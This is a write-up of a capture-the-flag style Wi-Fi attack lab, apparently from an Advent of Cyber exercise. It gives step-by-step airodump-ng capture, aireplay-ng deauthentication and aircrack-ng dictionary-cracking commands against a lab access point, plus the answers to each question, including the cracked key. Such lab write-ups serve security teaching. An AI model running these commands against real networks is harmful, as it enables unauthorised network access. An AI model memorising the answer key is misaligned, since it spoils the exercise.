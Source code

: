 <h1>Learning Objectives</h1>
<li>Understand what Wi-Fi is.</li>
<li>Explore its importance for an organisation.</li>
<li>Learn the different Wi-Fi attacks.</li>
<li>Learn about the WPA/WPA2 cracking attack.</li>

<p align="center"><img src="https://github.com/user-attachments/assets/e1bd07f4-9f67-4522-ac81-46af0784ddd8"  width="650"/> 

<p align="center">McSkidy took a thoughtful breath. <i>"Mayor can still find his way in!"</i>
<p align="center">Glitch smiles confidently. <i>"I think I know the last technique he relies on to get into the networks."</i>
<p align="center">McSkidy stands up from her chair with a surge of excitement. <i>"Let me guess, it's a notorious way to get into a network - a Wi-Fi attack?!"</i>
<p align="center">Glitch nods decisively. <i>"Exactly! Let's be one step ahead of the Mayor."</i>



<p><h2>Q1: What is the BSSID of our wireless interface?</h2></p>

<details>
  <summary>Q1 Walkthrough</summary>
    <p>Open terminal window and run the command iw dev to display all available wireless devices on the system along with their configurations</p>
      <img src="https://github.com/user-attachments/assets/423bf724-047a-4f08-8dcd-49b17cc110a2"/>

 <details> 
  <summary>Q1 Answer</summary>
   <p><b>02:00:00:00:02:00</b>
    <p><img src="https://github.com/user-attachments/assets/57dee9bf-1d52-4b42-a56c-98abf6779877"/></details>
</details>


<p><h2>Q2: What is the SSID and BSSID of the access point? </h2></p>

<details>
  <summary>Q2 Walkthrough</summary>
    <p>In a terminal, run "sudo iw dev wlan2 scan" to scan for available Wi-Fi networks</p>
      <img src="https://github.com/user-attachments/assets/afe0cac1-0bc0-4796-ad2c-6072354e6051"/>

 <details> 
  <summary>Q2 Answer</summary>
   <p><b>MalwareM_AP, 02:00:00:00:00:00</b>
    <p><img src="https://github.com/user-attachments/assets/a7e1d0d6-3f7c-4c37-aeba-ee42d30ebff8"/>
    <p><img src="https://github.com/user-attachments/assets/1a21ec6e-2b15-46bf-8bfa-764d6d644bc8"/></details>
</details>


<p><h2>Q3: What is the BSSID of the wireless interface that is already connected to the access point?</h2></p>

<details>
  <summary>Q3 Walkthrough</summary>
    <p>In a terminal, run the following commands to disbale your network interace, switch to monitoring mode, and then turn reenable your network interface</p>
      <img src="https://github.com/user-attachments/assets/c072fae1-48bb-41d0-8f4e-b0b6dba45e2c"/>
    <p>Confirm the network interface is in monitoring mode by running "sudo iw dev wlan2 info"</p>
      <img src="https://github.com/user-attachments/assets/5a6401f5-e857-4481-847f-1c693b703625"/>
    <p>Run "sudo airodump-ng wlan2" to capture the Wi-Fi traffic in the area</p>
      <img src="https://github.com/user-attachments/assets/ddaa2698-b28e-400d-8545-cef311f62b00"/>
    <p>Run "sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2" to target the BSSID and network channel of the MalwareM_AP access point and discover any connected devices</p>
      <img src="https://github.com/user-attachments/assets/cd4c2559-321e-464f-8e49-023b923dcd5f"/>
       
 <details> 
  <summary>Q3 Answer</summary>
   <p><b>02:00:00:00:01:00</b>
    <p><img src="https://github.com/user-attachments/assets/48dbc596-4a74-49aa-8067-043ba7398780"/></details>
</details>


<p><h2>Q4: What is the PSK after performing the WPA cracking attack?</h2></p>

<details>
  <summary>Q4 Walkthrough</summary>
    <p>In a seperate terminal, run "sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2" to perform a deauthentication attack on the MalwareM_AP and send 1 deauth to attempt to deauthenticate the connected client</p>
      <img src="https://github.com/user-attachments/assets/19d67504-4254-4cc8-b99d-d21dd823efdc"/>
    <p>Verify the WPA handshake was recorded in the terminal that is capturing traffic on the MalwareM_AP access point</p>
      <img src="https://github.com/user-attachments/assets/bdce2abc-fc41-42b2-953a-0ae75fa18efa"/>
    <p>Run "sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap" to perform a dictionary attack to crack the pre-shared key (PSK) on the MalwareM_AP</p>
      <img src="https://github.com/user-attachments/assets/46df0811-82dc-4604-8e1f-e1340e792a79"/>
       
 <details> 
  <summary>Q4 Answer</summary>
   <p><b>fluffy/champ24</b>
    <p><img src="https://github.com/user-attachments/assets/0d469fb8-892d-482b-a76a-4bbb648cee24"/></details>
</details>
